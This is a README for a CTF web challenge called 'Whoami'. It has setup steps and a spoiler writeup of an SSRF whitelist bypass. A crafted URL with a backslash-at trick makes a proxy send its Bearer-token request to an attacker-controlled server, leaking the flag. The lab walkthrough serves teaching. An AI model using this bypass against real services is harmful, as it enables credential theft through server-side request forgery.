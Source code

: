 # Whoami

<p align="center">
    <img src="assets/mainpage.png" alt="Main page of the webapp" width=400 />
    <br />
    <i>Main screen</i>
</p>

A medium difficulty <ins>web challenge</ins> where the players are given two ports.

## How to run

The image was tested with podman, but should work fine with docker as well.

0. Clone the repo and cd to the root folder of the particular challenge
1. Build the image: `podman build -t ctf-whoami:latest .`
2. Run the image: `podman rm -f ctf-whoami; podman run --rm -it -p 53499:53499 -p 25998:25998 -e BACKEND_PORT=53499 -e PROXY_PORT=25998 --name ctf-whoami ctf-whoami:latest`
3. Share the ports with the players

<details>
<summary>Writeup (Spoiler)</summary>

If the players visit the right port, they can quickly find themselves on a website that seems to be some kind of API documentation. It has two endpoints listed. One returns a random cat or dog image everytime its pressed. This is how the browser sends those requests:

```
curl 'http://localhost:53499/image' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0' -H 'Accept: application/json, text/plain, */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Connection: keep-alive' -H 'Referer: http://localhost:53499/' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' -H 'DNT: 1' -H 'Sec-GPC: 1'
```

Nothing too interesting. There is also a `/classify` endpoint, which returns wrong api key:

```
[steve@todo ~]$ curl localhost:53499/classify
Wrong API key
```

But if we upload a picture and don't specify a key, we see that it goes to a different endpoint:

```
curl 'http://localhost:25998/proxy?url=http://whoami.honeylab.hu/classify' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0' -H 'Accept: application/json, text/plain, */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'X-Playground: true' -H 'Content-Type: multipart/form-data; boundary=---------------------------123969975725992247842574201537' -H 'Origin: http://localhost:53499' -H 'Connection: keep-alive' -H 'Referer: http://localhost:53499/' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-site' -H 'DNT: 1' -H 'Sec-GPC: 1' --data-binary $'-----------------------------123969975725992247842574201537\r\nContent-Disposition: form-data; name="image"; filename="image.jpg"\r\nContent-Type: image/jpeg\r\n\r\n-----------------------------123969975725992247842574201537--\r\n'
```

Maybe we can trick that proxy to request a URL controlled by us? Let's try it out:

```
[steve@todo ~]$ curl 'http://localhost:25998/proxy?url=http://ifconfig.co/json'
Unauthorized
[steve@todo ~]$ curl 'http://localhost:25998/proxy?url=http://ifconfig.co/json' -H 'X-Playground: true'
Invalid url
```

But if we request a URL from the same subdomain:

```
[steve@todo ~]$ curl 'http://localhost:25998/proxy?url=http://whoami.honeylab.hu/image' -H 'X-Playground: true'
Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.
```

We get a picture back. We also get a proper 404 back in case:

```
[steve@todo ~]$ curl 'http://localhost:25998/proxy?url=http://whoami.honeylab.hu/random' -H 'X-Playground: true' -I
HTTP/1.1 404 Not Found
Access-Control-Allow-Headers: Accept, Content-Type, Content-Length, Accept-Encoding, X-Playground
Access-Control-Allow-Methods: POST, OPTIONS, GET, HEAD
Access-Control-Allow-Origin: *
Date: Fri, 03 Nov 2023 12:56:02 GMT
```

So there is probably a whitelist on the URLs. Can we trick it somehow?

We can try to use the username:password format from the URL spec, but in order for the backend to send the actual request to our arbitary server, we need to read more about how this URL RFC specifies things: https://datatracker.ietf.org/doc/html/rfc3986

So apparently `\` ends the URL. This behavior can be reproduced with firefox actually.

But the included [poc.py](poc.py) script does the heavy lifting for us. It essentially spawns a web server and sends a proxy request with the following URL query string: `http://127.0.0.1:8888\@{base_url}/random`. This causes the backend regex parser to assume that we are actually trying to reach base_url, but in reality the request will be made to our server.

```
[steve@todo ctf-whoami]$ python3 ./poc.py 
Authorization Header: Bearer cq23{n3ver_p4rS6_URL5_w1th_r3g3x_1066f6cec9dd3d4274940c52a8d1b3d0}
HTTP Call to http://localhost:25998/proxy - Status: 200
Request Captured
```

And we got our flag!
</details>